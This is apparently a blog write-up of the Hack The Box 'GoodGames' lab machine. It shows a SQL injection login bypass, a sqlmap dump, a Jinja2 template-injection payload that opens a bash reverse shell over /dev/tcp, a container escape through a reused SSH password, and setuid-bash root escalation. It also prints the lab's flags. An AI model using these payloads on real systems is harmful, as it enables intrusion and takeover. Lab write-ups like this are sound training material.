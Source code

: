 ```yaml
---
title: "GoodGame from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# GoodGame from HTB
`nmap`showed:
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
```
Site runs on `werkzeug`same as `flask` so maybe we'll have to use `ssti`
add this to `/etc/hosts`
```
10.10.11.130 goodgame.htb
```
Access the site and on top left there is login button. Click that
turn on `burpsuite + intercept`and type in whatever you want. In `burpsuite`you need to modify payload like:
```
email=admin' or 1=1 -- - &password=
```
This will get you logged in
Then you can see `email`which is `admin@goodgames.htb`
we''ll have to find what is `password`with `sqlmap`
after enumerating and finding this is the last code for `sqlmap`
```
sqlmap -r goodgame.req -D main -T user --dump
```
`goodgame.req`is `burpsuite payload`
```
POST /login HTTP/1.1
Host: goodgame.htb
Content-Length: 40
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgame.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.5
Referer: http://goodgame.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=admin@goodgames.htb&password=admin
```

On top left there is `settings`logo which redirects you to `subdomain`. Add that to `/etc/hosts`
```
10.10.11.130 internal-administration.goodgames.htb
```
Then access it.
Go to `settings`and it's time for `ssti`. Change name to `{{7*7}}`if name will be `49`this means `ssti`works and we will need to get `reverse-shell`. It works/
Now will have to push in `base64`payload because normal things didn't work for me like `uploading reverse shell and executing it, etc`
```bash
{% raw %}
echo -ne 'bash -i >& /dev/tcp/<your_port>/<port> 0>&1' | base64
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<your_base64_payload>${IFS}|base64${IFS}-d|bash').read()}}
{% endraw %}
```
After that you will get connection on `netcat`
***
User Flag is: 4e2c8d476534e7d6a3cd3969e3b2f1cf
***
You will be root but you are in docker.
`remember if you are root in docker you can always do privilege escalation`
```bash
drwxr-xr-x 2 1000 1000 4096 Dec  2  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Aug 17 16:54 user.txt
```
that `1000`indicates that we are in docker
```bash
mount
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
This confirms that.
```bash
ss -tlnp
--------------
-------------------
LISTEN    0         128             172.19.0.1:22               0.0.0.0:*        users:(("sshd",pid=1403,fd=3))
--------------
------------------
```
This means `ssh`is running internally
get another connection or just create another shell-like `idk what to call it`in that listener.\
Then connect to `ssh`as `augustus`with same password as `root`
```bash
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 2313  bytes 405545 (396.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1934  bytes 2082199 (1.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
With this we know that we'll have to connect to `172.19.0.1` in `ssh`
```bash
script /dev/null -c bash
Script started, file is /dev/null

ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
augustus@GoodGames:~$
```
Then copy `/bin/bash`to home directory and in other connection where you are `root`give it `root euid`
```bash
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4755 bash
```
Then go to `ssh`and execute `./bash`and become root like this:
```bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# id
id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
```
***
Root Flag is: 7f0f9e85759eacd8102d1525227a3b12
***
![](/assets/images/Screenshot from 2024-08-17 22-04-50.png)
